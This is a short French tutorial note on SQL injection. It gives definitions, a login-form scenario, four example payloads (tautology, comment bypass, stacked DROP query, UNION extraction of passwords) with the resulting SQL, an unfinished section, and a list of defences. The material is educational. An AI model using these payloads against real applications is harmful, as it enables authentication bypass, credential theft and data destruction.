



## SQL Ingestion

### Définitions
- **Injection SQL**: Effectuer (ou simuler) une saisie utilisateur qui modifie le comportement de la requète légitime pour lui donner un comportement malveillant.
- **Base de données**: Une base de données est un ensemble structuré de données, enregistrées sur des supports.
- **SGBD**: Un sysèeme de gestion de base de données (SGBD) est un logiciel système permettant aux utilisateurs et programmeurs de créer et de gérer des bases de données.

### Contexte
Prenons un interface de connexion à une page web qui nous demmande une pseudo et un mot de passe. Normalement il y a deux situation: <br/>
1. Soit on rentre les deux informations correctement et on gagne accès à la page car la requête SQL envoyer est correct.



2. Soit on se trompe dans un des deux champs et on a pas accès car la requête SQL envoyé est fausse.



Si le site n'est pas sécurisé et utilise une base de donnée SQL (95% du temps), alors il y a une 3eme possibilité:<br/>
- Injecté du code, un payload.



### Exemple Injection SQL - Attaque test logiques

Pseudo : admin <br/>
Password : `’ OR ’1’=’1`

```sql
SELECT * FROM members WHERE username = ’admin’ AND password = ’’ OR ’1’=’1’;
```

### Exemple Injection SQL - Attaque par commentaire

Pseudo : admin`'; --` <br/>
Password :

```sql
SELECT * FROM members WHERE username = ’admin’; -- ’ AND password = ’’;
```

### Exemple Injection SQL - Attaque stacking queries

Pseudo : <br/>
Password : `'; DROP members; --`

```sql
SELECT * FROM members WHERE username = ’’ AND password = ’’; DROP members; -- ’;
```

### Exemple Injection SQL - Attaque union injections

Pseudo : <br/>
Password : `' UNION SELECT username,password FROM members; --`

```sql
SELECT username,role FROM members
WHERE username = ’’
AND password = ’’
UNION SELECT username,password
FROM members; -- ’;
```

### Comment je connais les noms des tables et colonnes?

TO DO...

### Protection
- Utilisation de requêtes paramétrées
- Validation des saisies utilisateurs
- Principe du moindre privilège
- Installation d’un Web Application Firewall
- Gestion des erreurs sécurisée